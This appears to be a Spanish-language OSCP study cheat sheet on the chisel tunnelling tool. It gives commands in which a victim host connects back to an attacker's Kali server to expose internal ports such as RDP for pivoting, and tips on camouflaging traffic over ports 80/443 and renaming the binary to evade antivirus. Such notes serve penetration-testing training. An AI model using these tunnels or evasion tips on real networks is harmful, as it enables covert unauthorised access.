 `chisel` es una herramienta de tunelado TCP sobre HTTP/HTTPS, ideal para crear túneles reversos en entornos restringidos (como entornos sin salida directa o con firewalls que permiten solo tráfico web). En OSCP es útil para pivoting, acceso remoto encubierto o reenvío de puertos.

---

## Instalación

Descargar binarios desde: https://github.com/jpillora/chisel/releases

O compilarlo desde Go:
```bash
go install github.com/jpillora/chisel@latest
```

---

## Ejemplo de Uso Común (Reverse Tunnel)

### 1. En tu atacante (Kali): inicia el servidor:
```bash
./chisel server -p 8000 --reverse
```

### 2. En la víctima (Windows o Linux): conecta como cliente reverso
```bash
chisel client <KALI_IP>:8000 R:LOCAL_PORT:127.0.0.1:TARGET_PORT
```

#### Ejemplo:
```bash
chisel client 10.11.0.1:8000 R:1080:127.0.0.1:3389
```
Esto redirige el puerto 3389 (RDP) de la víctima al 1080 en Kali.

---

## Modo Directo (Forward Tunnel)

Si puedes salir del entorno pero no entrar:

### Atacante (Kali):
```bash
./chisel server -p 8000
```

### Víctima (cliente):
```bash
chisel client <KALI_IP>:8000 1080:127.0.0.1:3389
```
Esto expone el RDP local de la víctima como localhost:1080 en Kali.

---

## Escenarios Clásicos OSCP

- Acceder a RDP/WinRM/SMB desde red interna inaccesible directamente
- Pivoting desde una máquina intermedia
- Reversos HTTP cuando solo se permite tráfico web saliente

---

## Buenas Prácticas

- Usa puertos 80/443 si necesitas camuflar el tráfico
- Cambia nombre del binario para evadir AV básico
- Usa `--auth` si quieres algo de autenticación

---
